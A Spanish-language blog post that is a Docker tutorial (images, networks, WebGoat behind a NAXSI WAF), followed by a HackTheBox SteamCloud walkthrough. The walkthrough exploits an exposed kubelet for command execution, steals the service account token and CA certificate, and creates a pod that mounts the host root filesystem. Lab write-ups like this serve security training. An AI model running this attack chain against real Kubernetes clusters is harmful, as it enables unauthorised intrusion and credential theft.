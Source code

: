 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#descargas_config">Descargas y configuraciones</a>
- <a href="#internal_network">Redes internas de docker</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Docker es una alternativa a la gestion de contenedores como Parallels que en su momento tambien lo mencionaron en mi maestria. Para gestionar servicios de seguridad como navegadores seguros o verificacion de archivos tambien existe otro SO que se llama QUBES, de linux y contiene las aplicaciones fuera del sistema operativo host, pero te facilita tambien el intercambio de archivos entre estos contenedores.

## [](#header-2)<a id="descargas_config">Descargas y configuraciones</a>
Empezaremos este breve manual descargando una imagen de docker hub con el comando

*Todos los comandos se deben ejecutar con sudo para que el daemon de docker reaccione*

```s
#Imagen de Webgoat de OWASP, este sera nuestro servidor inseguro
sudo docker pull webgoat/webgoat-8.0
sudo docker pull scollazo/naxsi-waf-with-ui
```
Para verificar las imagenes que tenemos descargadas podemos hacer un:

```s
sudo docker image ls
```

Para borrar los contenedores podemos hacer un

```s
#Borra en general
docker container prune

#Borrar individualmente 
docker rm -f [Container]
```

Para iniciar el WAF y proteger nuestro servidor inseguro, usaremos NAXSI

Para iniciar con una shell iteractiva podemos agregar un 

```s
sudo docker run -it ubuntu:waf_test
```

Para iniciar con un nombre especifico, haremos un

```s
docker run -d --name webGoat webgoat/webgoat-8.0
```

Para iniciar un contenedor con una variable de entorno

```s
docker run -d --name WAF -p [MAquina]:[contenedor] --env WEBSERVER=[nombre contenedro]:[PORT] scollazo/naxsi-waf-with-ui
```

Para publicar una imagen haremos un

```s
sudo docker login
#Para crear nuestra propia version de la imagen primero haremos un
socker tag ubuntu:waf_test rebick/ubuntu:waf_test
sudo docker push rebick/ubuntu:waf_test
```

![Comandos](/assets/images/docker_platzi/carbon%20(3)-975f4d64-9144-4a75-a8ba-0eceba66db50.webp)

Otro asunto importante es que a veces no podemos ver como se configuro una imagen, y para ver como se configuro existen unos tags, para entrar en ellos podemos usar una herramienta llamada <a href="https://github.com/wagoodman/dive.git">dive</a>

## [](#header-2)<a id="internal_network">Redes internas de docker</a>
Docker dispone de interfaces de redes para comunicacion entre los contenedores, para listarlos usaremos el comando

```s
docker network ls
```
Bridge que es el default de docker.

Host es una representacion en docker de la red real de la maquina, si quisiera que un contenedor tuviera acceso a todas las maquinas tendria que permitirle usar esta red.

none, seria para que el contenedor no pudiera tener acceso a la red.

![Network list](/assets/images/docker_platzi/network_ls.png)

Tambien podemos crear nuestra propia red con:

```s
docker network create wafnet
#Para que los contenedores se puedan conectar a esta red solo agregariamos el parametro attachable
docker network create --atachable wafnet
#Para ver las opciones de la red
docker network inspect wafnet
#Para conectar un contenedor a una red
docker network connect wafnet [nombre del contenedor]
```

## [](#header-2)<a id="practica">Practica</a>

Corremos el contenedor del servicio vulnerable, exponemos el puerto 8081 de nuestra maquina y lo visualizamos como el puerto 8080 del contenedor.

```s
sudo docker run -it -p 8081:8080 --name webGOAT webgoat/webgoat-8.0
```

Corremos el contenedor de naxsi y lo configuramos para exponer el puerto 8080 de nuestra maquina y visualizarlo como el 8080 de naxsi.

```s
sudo docker run -e BACKEND_IP=webGOAT -it -p 8080:80 --name naxsi scollazo/naxsi-waf-with-ui
```

Notas de hacking a SteamCloud HacktheBox, contenedores de docker.
El escaneo con nmap, nos trajo el puerto 8443 y 10250, el cual es un API para la gestión de contenedores.
```s
nmap 10.129.96.98 --max-retries=0 -T4 -p-
```

Podemos hacer una consulta al contenedor con 
```s
curl https://10.129.96.98:8443/ -k
curl https://10.129.96.98:10250/pods -k
```

Utilizaremos kubeletctl para descubrir lo que hay dentro de estos pods, para descargarlo usamos el comando con privilegios:
```s
curl -LO
https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
chmod a+x ./kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

Ahora veremos la información dentro de los pods con:
```s
kubeletctl --server 10.129.96.98 pods
```

Ahora necesitaremos saber en que pod podemos ejecutar comandos, para ello tenemos el comando
```s
kubeletctl --server 10.129.96.98 scan rce
```

El resultado nos dice que podemos ejecutar comandos en el pod nginx, y para hacerlo usamos el comando:
```s
kubeletctl --server 10.129.96.98 exec "id" -p nginx -c nginx
```
PRIVILEGE ESCALATION
Ahora podemos ver si tenemos acceso a los tokens y certificados y así poder crear una cuenta con permisos altos
Con los siguientes comandos guardaremos y exportaremos en la variable token el token de la consulta, y con el otro comando guardamos el output en el archivo ca.crt
```s
export token=$(kubeletctl --server 10.129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
kubeletctl --server 10.129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx >> ca.crt
```
Nos crearemos un archivo para crear el nuevo contenedor con un archivo f.yml
```yml
apiVersion: v1
kind: Pod
metadata:
name: nginxt
namespace: default
spec:
containers:
- name: nginxt
image: nginx:1.14.2
volumeMounts:
- mountPath: /root
name: mount-root-into-mnt
volumes:
- name: mount-root-into-mnt
hostPath:
path: /
automountServiceAccountToken: true
hostNetwork: true
```

Ahora creamos el contenedor con:
```s
kubectl --token=$token --certificate-authority=ca.crt -- server=https://10.129.96.98:8443 apply -f f.yaml
```
Y listamos para revisar que se haya creado
```s
kubectl --token=$token --certificate-authority=ca.crt -- server=https://10.129.96.98:8443 get pods
```
Y ahora tendremos acceso a las flags.
```s
kubeletctl --server 10.129.96.98 exec "cat /root/home/user/user.txt" -p nginxt -c
nginxt
kubeletctl --server 10.129.96.98 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```

Al final tuve que utilizar la version antes mencionada de kubectl y la reciente del sitio https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/